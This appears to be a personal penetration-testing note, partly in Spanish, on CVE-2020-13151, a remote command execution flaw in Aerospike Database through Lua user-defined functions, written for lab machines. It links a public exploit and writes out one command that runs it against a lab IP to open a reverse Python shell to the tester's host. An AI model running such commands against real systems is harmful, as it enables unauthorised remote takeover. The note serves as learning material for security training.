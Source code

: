 ## DESCRIPTION

Aerospike Database versions before 5.1.0.3 permitted user-defined functions (UDF) to call the `os.execute` Lua function. This module creates a UDF utilising this function to execute arbitrary operating system commands with the privileges of the user running the Aerospike service. This module does not support authentication; however Aerospike Database Community Edition does not enable authentication by default. This module has been tested successfully on Ubuntu with Aerospike Database Community Edition versions 4.9.0.5, 4.9.0.11 and 5.0.0.10.

Enumerando directorios hemos encontrado una web que indica qeu se usa:

![[Pasted image 20230603120615.png]]

![[Pasted image 20230603120622.png]]

#### Mas información
* Exploit que fuciona: https://github.com/b4ny4n/CVE-2020-13151


## EXPLOITATION

Clonamos el repositorio y probamos:

Ejecutamos:

```
python3 cve2020-13151.py --ahost=192.168.200.143 --pythonshell --lhost 192.168.45.228 --lport 443 
```

![[Pasted image 20230603120930.png]]


**!!NOTA IMPORTANTE!!** 
El exploit de Searchsploit: no me funicona

## MACHINES

* Hack The Box: 
* OSCP: OSCPA

**!!NOTA IMPORTANTE!!** 